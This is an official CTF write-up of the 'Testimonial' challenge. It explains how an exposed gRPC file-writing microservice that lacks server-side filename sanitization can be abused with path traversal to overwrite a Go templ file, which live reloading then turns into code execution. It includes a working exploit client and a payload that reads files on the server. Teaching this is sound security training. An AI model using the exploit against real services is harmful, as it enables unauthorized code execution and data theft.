

        <font size="10">Testimonial</font>

5<sup>th</sup> February 2024 / D24.xx.xx

​Prepared By: ippsec

​Challenge Author(s): ippsec

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- The challenge involves an recruitment page for "They Fray" and allows anyone to submit a testimonial. The webstack utilizes GoLang with chi/templ and is deployed via Air, which allows for live reloading of golang applications. Testimonials is a GRPC Microservice and stored/retrieved as files. Exploitation occours because the Testimonial microservice is exposed to end-users, which provides the ability to overwrite the golang files on the webservice. Due to air live reloading files, it is possible to inject arbituary code.

## Description

* As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.

## Skills Required

- Understanding of Golang, Templ, and Air
- Basic understanding of microservices

## Skills Learned

- Interacting with GRPC
- Golang web stacks

## Application Overview



In the source code provided to the challenge, we see the last line of the docker entrypoint is `air` and the .air.toml file has the following lines:
```conf
[build]
  bin = "./tmp/main"
  cmd = "templ generate && go build -o ./tmp/main ."
	
  ...
  include_ext = ["tpl", "tmpl", "templ", "html"]  
```
This indicates that modifying any tpl, tmlp, templ, or html file will trigger a rebuild to occour. This is common in development as it allows for quickly testing changes made to the application. Air should not be used on production in this way. 

The code on the webserver for submitting a testimonial looks like:
```go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```
It is not possible to modify the templ file due to  the filter bad characters. The key piece to understand here is the SendTestimonial() function is code ran on the client, looking at the server code we can see no sanitization is done there:
```go
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
	if req.Customer == "" {
		return nil, errors.New("Name is required")
	}
	if req.Testimonial == "" {
		return nil, errors.New("Content is required")
	}

	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
	if err != nil {
		return nil, err
	}

	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
}
```
This is common in microservice architecture because the services responsibility is to write files. If other services wanted to use this service, they may need different bad characters. The real vulnerability here is letting users interact directly with GRPC and for the web application to have "hot reloading".

# Creating the GRPC Client

Creating a GRPC Client to connect to the service is the easiest way to exploit this. It is likely possible to use a tool like `grpcurl` to perform this but you would need to pass a file in an argument over the command-line which involves a lot of escaping bad characters. The web application already imports the client and the source code is in the folder `client` which makes it easy to copy and modify.

In a new directory we can run `go mod init client` to start a new golang package. Then copy the pb (protobuf) folder and the contents of the client directory into this folder. In the `main.go` file edit the `GetClient()` function to point to the IP Address of the challenge. Then create a main function that looks like:
```go
func main() {
	client, err := GetClient()
	if err != nil {
		fmt.Println("Failed to connect to server:", err)
		return
	}

	f, err := ioutil.ReadFile("pwn.go")
	if err != nil {
		fmt.Println("Failed to read file:", err)
		return
	}

	fpath := "../../view/home/index.templ"
	fmt.Println("Sending testimonial from", fpath)
	client.SubmitTestimonial(context.Background(), &pb.TestimonialSubmission{Customer: fpath, Testimonial: string(f)})

	if err != nil {
		fmt.Println("Failed to send testimonial:", err)
		return
	}
}
```
This will read the file pwn.go and copy it over top of view/home/index.templ.  We can make a simple templ file that will look for the flag and display the contents:
```go
package home

import (
	"htbchal/view/layout"
	"io/ioutil"
	"path/filepath"
	"strings"
)

templ Index() {
	@layout.App(true) {
		<div>{pwn()}</div>
	}
}

func pwn() string {
	files, err := ioutil.ReadDir("..")
	if err != nil {
		return "Error reading directory: " + err.Error()
	}

	var result string
	for _, file := range files {
		if strings.HasPrefix(file.Name(), "flag") && strings.HasSuffix(file.Name(), ".txt") {
			filePath := filepath.Join("..", file.Name())
			content, err := ioutil.ReadFile(filePath)
			if err != nil {
				return "Error reading file: " + err.Error()
			}
			result += string(content) + "\n"
		}
	}

	return result
}
```
If we run this with `go run main.go` it should connect to the GRPC Server, then change the homepage to be the contents of the flag.
